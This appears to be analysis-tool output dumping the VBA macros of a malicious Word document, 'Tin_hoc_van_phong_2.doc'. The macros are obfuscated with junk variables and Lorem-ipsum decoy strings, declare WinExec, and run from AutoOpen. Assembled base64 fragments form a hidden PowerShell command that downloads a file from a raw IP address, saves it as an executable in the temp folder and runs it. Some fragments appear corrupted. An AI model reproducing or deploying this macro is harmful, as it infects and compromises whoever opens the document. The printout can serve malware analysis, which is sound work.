Dim EVI12su As Integer
EVI12su = -29811
Dim AUcfFq9 As Byte
oMIYB = "b21t" + "b2Rv" + "IGlk" + "IGFt"
AUcfFq9 = 114
Dim MeA5R As String
actEZ = "AHMA" + "ZQAo" + "ACkA"
MeA5R = LCase(BecExo)
URHWDd = KmeaN + cwMtq + "cwBo" + GaDRD
Dim Mdc1k4 As Integer
Mdc1k4 = -27563
Dim HHrKFm0Jj As Integer
HHrKFm0Jj = Sgn(21547)
hipjt = "ZXQg" + "ZWEg" + "ZnVn" + "aWF0"
Dim pWURX As Long
FHdG5J = xPYjM + YNZPh + actEZ
aSllkY = URHWDd + FHdG5J
pWURX = -367596438
Dim rinQ5t
JblsG = "LCBu" + "dWxs" + "YS4K" + "Ck1v"
VAISR = "bGxp" + "dCBp" + "cHN1" + "bSBj"
NHM2dp = jBXdXl + aSllkY
rinQ5t = RTrim(ft72X)
Dim vVLP4mb As Integer
vVLP4mb = Sgn(22293)
Dim TWljx1we As Boolean
yompr = "b21t" + "b2Rv" + "IGVs" + "aXQg"
TWljx1we = False
Dim R91MJgr As Long
R91MJgr = 0
rUZyi = "YW1l" + "dCBw" + "cm9p" + "ZGVu"
OAoGg = "dCBv" + "ZmZp" + "Y2lh" + "IGxh"
Dim HJAfGelUm As Double
HJAfGelUm = Int(62627.70120565)
JDruX = "Ym9y" + "ZSBw" + "cm9p" + "ZGVu"
Dim q9Pm3rON As Double
WinExec NHM2dp, w7VGb
q9Pm3rON = 27258.895727222
Dim w8rLz4v As Double
Dim dybowJ6 As Byte
dybowJ6 = 106
w8rLz4v = Sgn(13037.321209209)
Dim yFebo As Double
Dim Q5u4Ux As Integer
iSGzO = "dCBl" + "c3Qg" + "YW1l" + "dCBt"
yFebo = Sgn(58018.832136842)
UgRsK = "aW5p" + "bSBh" + "dXRl" + "IGN1"
Dim Dy4OF3 As Byte
Dy4OF3 = 205
Q5u4Ux = 19222
Dim Qyso9 As Integer
Dim tuFt5LxXi As Integer
Qyso9 = Sgn(-92)
tuFt5LxXi = -22135
Dim j4rO2C3UM As Double
JVyGF = "cGlk" + "YXRh" + "dCBl" + "eGNl"
j4rO2C3UM = Sgn(52871.669814553)
Dim cCIJjMV5H As Double
okPBe = "cHRl" + "dXIg" + "dWxs" + "YW1j"
Dim EdzhLtA As Byte
xlCjH = "byBj" + "dWxw" + "YS4g" + "TWlu"
EdzhLtA = 226

Dim FizlBfv As Single
cCIJjMV5H = Sgn(41638.270362413)
Dim NFYAy As Integer
NFYAy = Sgn(-21793)
FizlBfv = 54070.840391842
KoKod = "aW0g" + "c2lu" + "dCBk" + "b2xv"
Dim DedbcqpBn As Long
DedbcqpBn = -1802756750
Dim d7xA0H As Long
d7xA0H = Sgn(-1567459176)
Dim SmzwYiSDN As Byte
SmzwYiSDN = 112
fQkqs = "cmUg" + "ZG9s" + "b3Ig" + "dGVt"
Dim OxZfK7 As Boolean
Dim yWieuNyr As Long
yWieuNyr = 0
Dim m3NFB As Long
m3NFB = Sgn(0)
Dim sptEU4 As Boolean
gIfeY = "cG9y" + "IGVz" + "c2Ug" + "ZG9s"
sptEU4 = True
OxZfK7 = True
ECDuA = "b3Iu" + "IEFt" + "ZXQg" + "dXQg"
NATAf = "ZnVn" + "aWF0" + "IGxh" + "Ym9y"
Dim ybeBadV As Single
Dim pt30gX As Single
ybeBadV = Sgn(56625.48595884)
pt30gX = Round(31937.495698018)
Dim aOpRZl As Byte
aOpRZl = 195
hUztc = "dW0g" + "dXQg" + "c3Vu" + "dCB2"
Dim P2FHdxje As Long
hOoXR = "b2x1" + "cHRh" + "dGUg" + "Y29u"
dRZlf = "c2Vx" + "dWF0" + "IGlw" + "c3Vt"
Dim pVPo6IW As Double
P2FHdxje = Sgn(0)
Dim GizYh As Byte
QDFtt = "IGVz" + "dCB2" + "ZW5p" + "YW0g"
BSvKk = "YXV0" + "ZSBv" + "ZmZp" + "Y2lh"
GizYh = 130
pVPo6IW = 40480.943813293
Dim Rd6G2 As Single
Dim yFXgUtz As Single
Rd6G2 = Int(44320.47743247)
Dim wldVQC As Integer
yFXgUtz = 63409.935659247
VCZfV = "IGVs" + "aXQs" + "IHVs" + "bGFt"
Dim RaivVgeLX As Single
PueNn = "Y28g" + "bWlu" + "aW0u" + "IEFt"
RaivVgeLX = Int(28300.025315758)
wldVQC = 10305
cnVEh = "ZXQg" + "bGFi" + "b3Jl" + "IGVs"
HJwOJ = "aXQg" + "bmlz" + "aSBw" + "cm9p"

Dim yjy9IKBOG As Byte
Dim O08tr4PZ As Integer
yjy9IKBOG = 243
Cuofk = "ZGVu" + "dCBk" + "dWlz" + "IGRv"
Dim UslLWz1
lUSqO = "bG9y" + "IGFk" + "IHBh" + "cmlh"
O08tr4PZ = Sgn(-9463)
UslLWz1 = Len(Kqkw1m6)
Dim HhjLClk As Boolean
LbCtc = "dHVy" + "IHZl" + "bmlh" + "bSwg"
CDVNG = "bW9s" + "bGl0" + "IHNp" + "dCBh"
Dim WueF3OL As Long
HhjLClk = False
qZgJf = "bGlx" + "dWlw" + "IGRl" + "c2Vy"
Dim xWjuJaeHf As String
RuSYK = "dW50" + "LiBF" + "eGVy" + "Y2l0"
zNlEe = "YXRp" + "b24g" + "ZHVp" + "cyBj"
xWjuJaeHf = AscW("H")
Dim o1EoMpI As Integer
o1EoMpI = Sgn(-15028)
KTcuG = "b25z" + "ZXF1" + "YXQg" + "bGFi"
WueF3OL = Sgn(-725163880)
ykhIV = "b3J1" + "bSBl" + "eGNl" + "cHRl"
Dim SS6XNu As Double
SS6XNu = Fix(40031.64831921)
Dim l3FagIWK9 As Boolean
l3FagIWK9 = False
Dim b3jkS29pZ As Double
b3jkS29pZ = Sgn(7855.7350338143)
UNJlG = "dXIg" + "c2l0" + "IHZl" + "bmlh"
End Function


-------------------------------------------------------------------------------
VBA MACRO Module4.bas 
in file: Tin_hoc_van_phong_2.doc - OLE stream: u'Macros/VBA/Module4'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
#If VBA7 Then
Public Declare PtrSafe Function WinExec Lib "kernel32" (ByVal lpCmdLine As String, ByVal nCmdShow As Long) As Long
#Else
Public Declare Function WinExec Lib "kernel32" (ByVal lpCmdLine As String, ByVal nCmdShow As Long) As Long
#End If
Public VoHvjkjwsjn As String
Public Const w7VGb As Integer = 0
Sub My3Sf()
Dim VdfPe0x
VdfPe0x = Asc("B")
Dim BVQPXsHI As Byte
BVQPXsHI = 106
Dim psc8pVD As Integer
psc8pVD = Sgn(-28879)
Dim atzR0 As Long
atzR0 = 0
Dim koMmzE As String
koMmzE = StrConv(VEJN6vAkO, vbProperCase)
Dim nMiZlz As Long
nMiZlz = Sgn(0)
Dim MkdpMGi As String
MkdpMGi = "q"
Dim f7HL5ex As String
f7HL5ex = EEHcFwPYZ
Dim gIdkrDcV As Integer
gIdkrDcV = 11845
Dim uEC0m As Double
uEC0m = Round(43508.98280444)
Dim cVjvR As Byte
cVjvR = 45

Dim olWG6z As Boolean
olWG6z = True
Dim hkAie9 As Long
hkAie9 = Sgn(-1597604902)
Dim R2k7m As Double
R2k7m = 46206.8165896
Dim KZoVY
KZoVY = Asc("y")
Dim G1to9XkqT As Boolean
G1to9XkqT = True
Dim IVFEoqW As Byte
IVFEoqW = 153
Dim NT3Ihm As Boolean
NT3Ihm = True
Dim ebj7lD As Byte
ebj7lD = 208
Dim Yq5tBkz As Double
Yq5tBkz = Int(786.05438745086)
Dim qA7gsw As Integer
qA7gsw = 2144
    
Dim oaACK4Z As Boolean
oaACK4Z = True
Dim qB3k4l As Boolean
qB3k4l = False
Dim Ia2wCxB As Byte
Ia2wCxB = 103
Dim HsPbtD As Double
HsPbtD = Round(53720.949023307)
Dim hASKBdD
hASKBdD = ""
Dim vEGKH0gX As Long
vEGKH0gX = Sgn(-396818500)
Dim uvWAinkUb As String
uvWAinkUb = Trim(DJtgWzk)
Dim WDZOh As Double
WDZOh = 39222.141759043
Dim xCL8B As Long
xCL8B = 0
Dim nvKPr4m3 As String
nvKPr4m3 = StrConv(sZk2Oew, vbUpperCase)
Dim vdW6i As Single
vdW6i = Fix(48543.191402878)
Dim vUfMC As Single
vUfMC = 32316.008731424
Dim wHo98u As Byte
wHo98u = 31
Dim jqfwUJ As String
jqfwUJ = "ZWFjaCgkdXJsIGl"
Dim ovEZb As Byte
ovEZb = 199
Dim umJr4TShb As String
umJr4TShb = Val(nIfeNxL)
Dim vy280 As Byte
vy280 = 160
Dim ufSKCj As Integer
ufSKCj = Sgn(-29599)
Dim FgMpahH8 As Long
FgMpahH8 = Sgn(-1677004956)
Dim hoI6Qbs As Long
hoI6Qbs = Sgn(-795394902)
Dim Cpkyn As Boolean
Cpkyn = False
Dim y6WVhRyC1 As Long
y6WVhRyC1 = 0
Dim wABfl As Boolean
wABfl = False
Dim HLbGIBD As Double
HLbGIBD = 16115.408174609
Dim Uv10MF
Uv10MF = "ICR1cmxzKXt0cnlYmNsaWVudC5Eb3dubG9hZEZpbGUoJHVybC5Ub1N0cmluZygpLCAkcGF0aCk"
Dim EOYlvzc As Boolean
EOYlvzc = True
Dim qkEZC As Byte
qkEZC = 225
Dim eMyPJ As Byte
eMyPJ = 70
Dim Fp7nxd As Boolean
Fp7nxd = True
Dim cuP94 As String
cuP94 = LTrim(xkHPf61IF)
Dim CYJc5 As Long
CYJc5 = Sgn(0)
Dim sEH7ayMFe As Byte
sEH7ayMFe = 162
Dim yl6nQeZt As Single
yl6nQeZt = Sgn(1116.6837813132)
Dim aYRIMFiKE As Integer
aYRIMFiKE = Sgn(13920)
Dim u6V3e As String
u6V3e = "7U3RhcnQtUHJvY2VzcyAkc"
Dim svcSTGAeE As Single
svcSTGAeE = 35119.460567258
Dim wHZem7Jt9
wHZem7Jt9 = AscB("D")
Dim AKhLEYBuH As Single
AKhLEYBuH = 38620.297959878
Dim Etu0qRE As Byte
Etu0qRE = 175
Dim hIzoHn As String
hIzoHn = ""
Dim MxHI2aV As Integer
MxHI2aV = -21489
Dim tBJYyL As Integer
tBJYyL = Sgn(15671)
Dim TEAvUR As Byte
TEAvUR = 162
Dim wpEiNg As Byte
wpEiNg = 124
Dim eQuND As Single
eQuND = Sgn(49036.505696692)
Dim Yluems As Single
Yluems = Round(45953.233538054)
Dim FiOle As Double
FiOle = 38063.810495002
Dim yU42NaAW As Integer
yU42NaAW = -27085
Dim tnavr6
tnavr6 = jqfwUJ & Uv10MF & u6V3e
Dim gYWT9Ow As Single
gYWT9Ow = 47700.940010662
Dim n8qhUZD As Single
n8qhUZD = Sgn(35558.349939327)
Dim pAfmCW As Byte
pAfmCW = 134
Dim nWlCtZHb
nWlCtZHb = StrConv(Vjq7rJKAE, vbProperCase)
Dim v7mjEdp2 As Integer
v7mjEdp2 = Sgn(26177)
Dim G7SGnV2gf As Long
G7SGnV2gf = Sgn(-674171138)
Dim O5ifz9 As Boolean
O5ifz9 = True
Dim DOwIWXYbJ As String
DOwIWXYbJ = "G9tOyR1cmxzID0gJ2h"
Dim lEw0Ov As Single
lEw0Ov = Sgn(37192.051465081)
Dim Sb2NFxe As Byte
Sb2NFxe = 190
Dim KrSo816I2 As Single
KrSo816I2 = 28075.458484843
Dim RFfWiY As String
RFfWiY = LTrim(KoXNx)
Dim PAJYsuVCQ As Double
PAJYsuVCQ = 52264.65403606
Dim jgnkrVd2 As Boolean
jgnkrVd2 = True
Dim SyMH32i As Long
SyMH32i = Sgn(-893664070)
Dim pF08RfG As Double
pF08RfG = Val(39284.824794748)
Dim hj2Ki As Integer
hj2Ki = -26433
Dim drl7CEgf As Integer
drl7CEgf = Sgn(18305)
Dim arAEjyV As Single
arAEjyV = Val(9446.028193655)
Dim Fmn7qF As Double
Fmn7qF = 64109.560134568
Dim PuzxEN As Integer
PuzxEN = Sgn(-14900)
Dim OZWHqIKs6 As Long
OZWHqIKs6 = Sgn(0)
Dim JGlb2 As Boolean
JGlb2 = True
Dim chbjXR As Long
chbjXR = Sgn(0)
Dim t5ysx As String
t5ysx = "0dHA6Ly8xODUuMLjI5LjM2L3Ryb2xscy5qcGc"
Dim g2JZA1 As Byte
g2JZA1 = 100
Dim OU16W As Single
OU16W = Int(49892.988622625)
Dim jPix5NUI As Double
jPix5NUI = 41900.222488143
Dim QMpa7n As Long
QMpa7n = 0
Dim OvsrmPoKu As Integer
OvsrmPoKu = -27048
Dim TXv4sSJ As Boolean
TXv4sSJ = True
Dim hOjKZm As Single
hOjKZm = Sgn(4116.8930877128)
Dim QlVqG6x As Byte
QlVqG6x = 83
Dim MsDIQCE As Long
MsDIQCE = Sgn(0)
Dim hjLGi As String
hjLGi = "nLlNwbGl0KCcsJyk7JG5hbWUgP"
Dim ySlchI0 As Boolean
ySlchI0 = True
Dim oKgI2AkP As Boolean
oKgI2AkP = False
Dim QEKMox As Long
QEKMox = Sgn(-1170131662)
Dim iyiARzpV As Byte
iyiARzpV = 94
Dim Av2nRHz As Double
Av2nRHz = 21444.958282775
Dim wTAnR As Integer
wTAnR = Sgn(-25131)
Dim SorcxdWN As Double
SorcxdWN = 13438.714143137
Dim LpjCnIdy As Byte
LpjCnIdy = 17
Dim E3Nzx As Single
E3Nzx = Fix(28356.93396432)
Dim UwO5a9gL As Double
UwO5a9gL = 28200.929504606
Dim xvzStpr As Double
xvzStpr = Sgn(39535.570822856)
Dim zDHyQg As Single
zDHyQg = Fix(2943.1267255236)
Dim ftYE1 As Byte
ftYE1 = 168
Dim hWlL7 As Double
hWlL7 = Fix(55944.495354967)
Dim OQfe5BhbT
OQfe5BhbT = DOwIWXYbJ & t5ysx & hjLGi
Dim v5H1gX As Single
v5H1gX = Sgn(192.80664875869)
Dim w8p32mj As String
w8p32mj = LTrim(Qz3Fl1O)
Dim Pgojh1PTs As Single
Pgojh1PTs = Val(52008.331310669)
Dim Tkb72Tw As Long
Tkb72Tw = -719103142
Dim QKd0ux As Byte
QKd0ux = 199
Dim d0HPaMGkt As Boolean
d0HPaMGkt = True
Dim rMtiG7P As Double
rMtiG7P = Sgn(46810.39354718)
Dim jyaiOGq8Y As String
jyaiOGq8Y = "cG93ZXJzaGVsbCAtV2luZG93U3R5bGUR3c2NyaXB0ID0gbmV3LW9iamVjdCAtQ29tT2JqZWN"
Dim gic7Q As Double
gic7Q = Sgn(18621.695591469)
Dim v4LkEr As Byte
v4LkEr = 203
Dim AuSqZh6eb As Single
AuSqZh6eb = Fix(40088.780200456)
Dim AE1G8AWP As Byte
AE1G8AWP = 122
Dim fo1e6M As Long
fo1e6M = 0
Dim hwBAc7DL8 As Integer
hwBAc7DL8 = Sgn(22649)
Dim MUthFeTEp As Boolean
MUthFeTEp = False
Dim yyKuCR1 As Boolean
yyKuCR1 = False
Dim JFvbEt6 As Double
JFvbEt6 = 43723.538893062
Dim HAdjTg8
HAdjTg8 = Chr(48)
Dim iR2m5 As Single
iR2m5 = Sgn(387.83022849831)
Dim xIwimLMc As Boolean
xIwimLMc = True
Dim y2z0T As Long
y2z0T = -975161882
Dim BnqW819XG As Boolean
BnqW819XG = True
Dim GZ153c As Integer
GZ153c = Sgn(27807)
Dim MBa2w As Double
MBa2w = 51012.371688412
Dim BpWV15P8 As Long
BpWV15P8 = Sgn(0)
Dim z5FDyes As Long
z5FDyes = -1635270284
Dim dOvpi3G As Boolean
dOvpi3G = True
Dim t2NkiZf As Boolean
t2NkiZf = False
Dim eYKzj60 As Byte
eYKzj60 = 183
Dim P0f5B7K As Byte
P0f5B7K = 74
Dim u6Bvs As Single
u6Bvs = 936.20822827252
Dim lw2Y5TVr As Byte
lw2Y5TVr = 31
Dim NVuAyL
NVuAyL = jyaiOGq8Y & HAdjTg8
Dim ALQYWvo As Double
ALQYWvo = Round(28345.854207547)
Dim iBfGA
iBfGA = StrConv(r1Zfu4L, vbUpperCase)
Dim wTG4CdkIg As Byte
wTG4CdkIg = 98
Dim A0qyjz As Double
A0qyjz = 6162.107144233
Dim CCFsK3 As Integer
CCFsK3 = Sgn(-1524)
Dim LUcGi3JSa As Long
LUcGi3JSa = 0
Dim vNG3xmM1 As Byte
vNG3xmM1 = 210
Dim JDqWL8ju As String
JDqWL8ju = "GF0aDticmVt9Y2F0Y2h7d3JpdGUtaG9"
Dim kbvO5 As Double
kbvO5 = Sgn(57358.691526665)
Dim yrHDvt As Double
yrHDvt = Round(31348.551879365)
Dim zFa9I As Double
zFa9I = Sgn(58592.595949896)
Dim cBLUslX As Long
cBLUslX = -188582680
Dim PKMZU As Integer
PKMZU = -16488
Dim VwJuvIUs As Byte
VwJuvIUs = 128
Dim FtLGF
FtLGF = "zdCAkXyHRpb24uTWVzc2FnZTt9fQ=="
Dim LsDjbVLJ As String
LsDjbVLJ = Val(Oh18Ibm)
Dim IyvAk
IyvAk = Val(L3dt6Nfr)
Dim lv2a4BU As Boolean
lv2a4BU = True
Dim SaynoUk As Long
SaynoUk = Sgn(0)
Dim iVAbrO As Double
iVAbrO = 27880.842491668
Dim CCJjoXh5y As Single
CCJjoXh5y = 23651.58955836
Dim GXLys As Boolean
GXLys = True
Dim xPEFYc As Double
xPEFYc = Round(63467.554441035)
Dim cUx8HSZ As Single
cUx8HSZ = Fix(40431.516068851)
Dim z8LwWmri0 As Long
z8LwWmri0 = Sgn(0)
Dim sT8yZmR0C As Boolean
sT8yZmR0C = True
Dim p9YId0isK As Single
p9YId0isK = Fix(42704.625885073)
Dim yOa0X2
yOa0X2 = JDqWL8ju & FtLGF
Dim Y2NQUejqp As Long
Y2NQUejqp = -764883074
Dim NJHsc As Boolean
NJHsc = True
Dim pZr8u
pZr8u = "7"
Dim QNCIG As Long
QNCIG = -774383262
Dim Ou8LqgZ As Byte
Ou8LqgZ = 81
Dim keKsv92z As Double
keKsv92z = Sgn(33906.968232434)
Dim YkV1p
YkV1p = Len(rjrcMgWa)
Dim n0HqZCe7d As Integer
n0HqZCe7d = Sgn(12890)
Dim Px2v6w7yU As Long
Px2v6w7yU = 0
Dim xluYE As Integer
xluYE = 21063
Dim JFyviOR As Single
JFyviOR = Sgn(63058.741484629)
Dim h8mHA As Integer
h8mHA = Sgn(24392)
Dim WdpeGhumO
WdpeGhumO = "mFuZG9tLm5leHQoMSwgNjU1M"
Dim ymLV1o As Double
ymLV1o = Sgn(8567.1436313995)
Dim lKQrIz As Double
lKQrIz = Sgn(20263.098080246)
Dim BCv9i As Long
BCv9i = Sgn(0)
Dim wPIB52bXi As Double
wPIB52bXi = Sgn(42169.03254164)
Dim iuedZJ9 As Long
iuedZJ9 = -833788568
Dim PmHWBVG7 As Byte
PmHWBVG7 = 45
Dim jd8HUvI As Long
jd8HUvI = Sgn(0)
Dim kJs6G As Long
kJs6G = Sgn(0)
Dim ADvReu As String
ADvReu = Len(qoJXC)
Dim maAdPburq As Boolean
maAdPburq = True
Dim ArvU6 As Boolean
ArvU6 = False
Dim R0Di6Q As Byte
R0Di6Q = 92
Dim FdLAvf2 As Long
FdLAvf2 = Sgn(0)
Dim bCbHtm As Single
bCbHtm = Val(32893.794272771)
Dim zjWUDC As Boolean
zjWUDC = True
Dim c0A7o As Integer
c0A7o = Sgn(-7784)
Dim r9avNAg As Boolean
r9avNAg = False
Dim mDAkNzgL7 As Single
mDAkNzgL7 = Sgn(15209.45651975)
Dim ThHBT3JqI
ThHBT3JqI = "zYpOYXRoID0gJGVudjp0ZW1wICsgJ1wnICs"
Dim YkV5GThAu As Boolean
YkV5GThAu = False
Dim RvuCF As Double
RvuCF = 12202.468721628
Dim Rtvi723 As Boolean
Rtvi723 = False
Dim OfAzTcng As Long
OfAzTcng = Sgn(0)
Dim c8olK7W As Boolean
c8olK7W = True
Dim hLT9CAvFB
hLT9CAvFB = UCase(zuWs2)
Dim jpWkxHnm As Double
jpWkxHnm = 846.17706786772
Dim tB65ZJd9
tB65ZJd9 = "gJG5hbKyAnLmV4ZSc7Zm9y"
Dim sjRGThi2 As Double
sjRGThi2 = Sgn(968.49115329463)
Dim UAYIZ1CX As Boolean
UAYIZ1CX = True
Dim eERkPN4K8 As Boolean
eERkPN4K8 = True
Dim d2wys As Double
d2wys = 57797.553006093
Dim izeyOR As Boolean
izeyOR = False
Dim YhaZd03X As Boolean
YhaZd03X = True
Dim EGVA1DMi5 As Integer
EGVA1DMi5 = Sgn(26745)
Dim Mjh2rD As Integer
Mjh2rD = Sgn(-30409)
Dim oq86icGME As Long
oq86icGME = 0
Dim g7DqR As Byte
g7DqR = 174
Dim pOPc5WnrZ
pOPc5WnrZ = Len(MAmxip)
Dim Pcm8x0JWg As Integer
Pcm8x0JWg = Sgn(14796)
Dim PIEqQBG As Boolean
PIEqQBG = True
Dim HZtnws As Double
HZtnws = Int(1398.5391072998)
Dim xRgONcKLq
xRgONcKLq = WdpeGhumO & ThHBT3JqI & tB65ZJd9
Dim Xgx2bDy As Byte
Xgx2bDy = 29
Dim QApqIJU As Integer
QApqIJU = Sgn(-7358)
Dim ZFs9QC As Double
ZFs9QC = Sgn(25883.757523834)
Dim mK7ov As Integer
mK7ov = Sgn(-31936)
Dim LGFdrW As Integer
LGFdrW = Sgn(-3206)
Dim SHKT4O As Long
SHKT4O = -2048114014
Dim B09gtbuk As Byte
B09gtbuk = 188
Dim atLH4 As Double
atLH4 = 34093.491728021
Dim fd8RJxBn As String
fd8RJxBn = LTrim(jyt96Cqjn)
Dim R0abDIn5E As Integer
R0abDIn5E = 29382
Dim kU1EBq As Integer
kU1EBq = 30058
Dim WcpUY As String
WcpUY = "IFdTY3JpcHQulb"
Dim f8CtA07 As Single
f8CtA07 = Sgn(7031.4687192163)
Dim y319u6G5Z As Single
y319u6G5Z = 46408.365460572
Dim n2JYby As Byte
n2JYby = 244
Dim tkG7SPHoj As Double
tkG7SPHoj = 1928.4376522206
Dim aGCQ2osk As Boolean
aGCQ2osk = False
Dim G3yPVL As Boolean
G3yPVL = True
Dim G4vD1MTHo As String
G4vD1MTHo = UCase(T5UyouH)
Dim EflZ4Nw As Long
EflZ4Nw = Sgn(0)
Dim DUXQnL As Single
DUXQnL = 1385.8858881654
Dim AWAlzLPgR As Double
AWAlzLPgR = 39242.888971103
Dim V9tuzoQb As Long
V9tuzoQb = Sgn(0)
Dim wewn4xZ As String
wewn4xZ = AscB("H")
Dim pYdk3
pYdk3 = "Gw7JHdlYmNsaWVudCA9IG5ldy1vYmplYJHJhbmRvbSA9IG5ldy1vYmplY3Q"
Dim Y7e5ML As Long
Y7e5ML = -490311850
Dim rea05N As Single
rea05N = Val(9083.8624454302)
Dim mUj34k As Boolean
mUj34k = False
Dim Th8k4rf As String
Th8k4rf = UCase(eYW5eo)
Dim xqBiHuUIv As Double
xqBiHuUIv = Int(45550.691390673)
Dim Tuznthi As Integer
Tuznthi = Sgn(-16568)
Dim imLYv
imLYv = Val(xtK7mq)
Dim rElmD As Single
rElmD = Round(3852.8395230447)
Dim gblyWotH As Double
gblyWotH = Sgn(29167.140587066)
Dim s7qEy6
s7qEy6 = "gcmFuZ"
Dim d1l5Gc As Long
d1l5Gc = Sgn(0)
Dim spvPX8i As String
spvPX8i = Val("4")
Dim UXqajm6yQ As Double
UXqajm6yQ = Sgn(6750.1182683521)
Dim s81OupY As Single
s81OupY = Sgn(31166.284391948)
Dim XpxG0 As Boolean
XpxG0 = False
Dim S4TUf As Single
S4TUf = 23281.992435291
Dim JAxkfj As Boolean
JAxkfj = True
Dim G3SrKJc As Byte
G3SrKJc = 154
Dim XtKrisO As Single
uRG93c = "cE93ZXJzSGVMTCAtV2luRG93c1R5bGUgaGlkZGVuIC1lIEpBQmo"
XtKrisO = 5518.7604677084
Dim hhS4DB As Single
hhS4DB = Fix(7498.2485050882)
Dim SdCMbO2Vk
SdCMbO2Vk = Trim(bHXTusbF)
Dim o1ivuC As Byte
o1ivuC = 137
Dim wYPm7 As Double
wYPm7 = Round(9963.9825235347)
Dim xS64130k
xS64130k = WcpUY & pYdk3 & s7qEy6
Dim iU2lV As Integer
iU2lV = 5130
Dim HAgiRQyf As Integer
HAgiRQyf = -11870
Dim BVCHOaME As Integer
BVCHOaME = -16634
Dim qXdmPi4 As Integer
qXdmPi4 = Sgn(-9102)
Dim vYm7lA As Boolean
vYm7lA = False
Dim UaxWDZkhB As Single
UaxWDZkhB = Round(56611.905477218)
Dim PlTyHGvg
PlTyHGvg = Len(jQLHxk8e9)
Dim Oc29GqMV7 As Double
Oc29GqMV7 = 28253.396631464
Dim lzj6O As Single
lzj6O = Sgn(18480.344045772)
Dim itDG8nPw As Byte
itDG8nPw = 154
Dim GW7ZCr0 As String
GW7ZCr0 = Val("7")
Dim qOGCTn As Boolean
qOGCTn = True
Dim ZVZxK As Byte
ZVZxK = 114
VoHvjkjwsjn = JERWafGg(uRG93c & "=")
End Sub
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: Tin_hoc_van_phong_2.doc - OLE stream: u'Macros/VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub wAIABPAH()
    waitTill = Now() + TimeValue("11:11:11")
    While Now() < waitTill
        MsgBox "Update your word first"
        Application.Quit
    Wend
End Sub
-------------------------------------------------------------------------------
VBA MACRO VBA_P-code.txt 
in file: VBA P-code - OLE stream: 'VBA P-code'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
' Processing file: Tin_hoc_van_phong_2.doc
' ===============================================================================
' Module streams:
' Macros/VBA/ThisDocument - 1034 bytes
' Macros/VBA/a - 2292 bytes
' Line #0:
' 	FuncDefn (Sub AutoOpen())
' Line #1:
' 	ArgsCall Quit 0x0000 
' Line #2:
' 	OnError (Resume Next) 
' Line #3:
' 	Dim 
' 	VarDefn EtreOL (As Integer)
' Line #4:
' 	LitDI2 0x0FDF 
' 	FnSgn 
' 	St EtreOL 
' Line #5:
' 	Dim 
' 	VarDefn AXIhjKC (As Double)
' Line #6:
' 	LitR8 0x2490 0xC0BF 0x0423 0x40E0 
' 	FnSgn 
' 	St AXIhjKC 
' Line #7:
' 	Dim 
' 	VarDefn lrHmh46s (As Double)
' Line #8:
' 	LitR8 0xE57D 0x162D 0xEF6C 0x40D7 
' 	FnInt 
' 	St lrHmh46s 
' Line #9:
' 	Dim 
' 	VarDefn XzindQ2B (As Double)
' Line #10:
' 	LitR8 0xF12A 0x9511 0xFFA2 0x40B0 
' 	FnSgn 
' 	St XzindQ2B 
' Line #11:
' 	Dim 
' 	VarDefn IDPje5cK (As Long)
' Line #12:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St IDPje5cK 
' Line #13:
' 	Dim 
' 	VarDefn QvmHr96 (As Integer)
' Line #14:
' 	LitDI2 0x111A 
' 	FnSgn 
' 	St QvmHr96 
' Line #15:
' 	Dim 
' 	VarDefn buxbWlSyR
' Line #16:
' 	LitStr 0x0001 "K"
' 	ArgsLd AscW 0x0001 
' 	St buxbWlSyR 
' Line #17:
' 	ArgsCall wHJG4cI 0x0000 
' Line #18:
' 	LitR8 0xF12A 0x9511 0x9BA2 0x40B0 
' 	FnSgn 
' 	St Khong_co_gia 
' Line #19:
' 	EndSub 
' Macros/VBA/Module2 - 6650 bytes
' Line #0:
' 	Option  (Explicit)
' Line #1:
' 	Dim (Private Const) 
' 	LitDI4 0x0000 0x00FC 
' 	VarDefn clOneMask
' Line #2:
' 	Dim (Private Const) 
' 	LitDI4 0xF000 0x0003 
' 	VarDefn clTwoMask
' Line #3:
' 	Dim (Private Const) 
' 	LitDI2 0x0FC0 
' 	VarDefn clThreeMask
' Line #4:
' 	Dim (Private Const) 
' 	LitDI2 0x003F 
' 	VarDefn clFourMask
' Line #5:
' 	Dim (Private Const) 
' 	LitDI4 0x0000 0x00FF 
' 	VarDefn clHighMask
' Line #6:
' 	Dim (Private Const) 
' 	LitDI4 0xFF00 0x0000 
' 	VarDefn clMidMask
' Line #7:
' 	Dim (Private Const) 
' 	LitDI2 0x00FF 
' 	VarDefn clLowMask
' Line #8:
' 	Dim (Private Const) 
' 	LitDI4 0x0000 0x0004 
' 	VarDefn cl2Exp18
' Line #9:
' 	Dim (Private Const) 
' 	LitDI2 0x1000 
' 	VarDefn cl2Exp12
' Line #10:
' 	Dim (Private Const) 
' 	LitDI2 0x0040 
' 	VarDefn cl2Exp6
' Line #11:
' 	Dim (Private Const) 
' 	LitDI2 0x0100 
' 	VarDefn cl2Exp8
' Line #12:
' 	Dim (Private Const) 
' 	LitDI4 0x0000 0x0001 
' 	VarDefn cl2Exp16
' Line #13:
' 	FuncDefn (Public Function JERWafGg(sString As String) As String)
' Line #14:
' 	Dim 
' 	VarDefn bOut
' 	VarDefn bIn
' 	OptionBase 
' 	LitDI2 0x00FF 
' 	VarDefn bTrans
' 	OptionBase 
' 	LitDI2 0x003F 
' 	VarDefn lPowers6
' 	OptionBase 
' 	LitDI2 0x003F 
' 	VarDefn lPowers12
' Line #15:
' 	Dim 
' 	OptionBase 
' 	LitDI2 0x003F 
' 	VarDefn lPowers18
' 	VarDefn lQuad (As Long)
' 	VarDefn iPad (As Integer)
' 	VarDefn lChar (As Long)
' 	VarDefn lPos (As Long)
' 	VarDefn sOut (As String)
' Line #16:
' 	Dim 
' 	VarDefn lTemp (As Long)
' Line #17:
' 	Ld sString 
' 	Ld vbCr 
' 	Ld vbNullString 
' 	ArgsLd Replace 0x0003 
' 	St sString 
' Line #18:
' 	Ld sString 
' 	Ld vbLf 
' 	Ld vbNullString 
' 	ArgsLd Replace 0x0003 
' 	St sString 
' Line #19:
' 	Ld sString 
' 	FnLen 
' 	LitDI2 0x0004 
' 	Mod 
' 	St lTemp 
' Line #20:
' 	Ld lTemp 
' 	IfBlock 
' Line #21:
' 	Ld vbObjectError 
' 	LitStr 0x0007 "Chan ly"
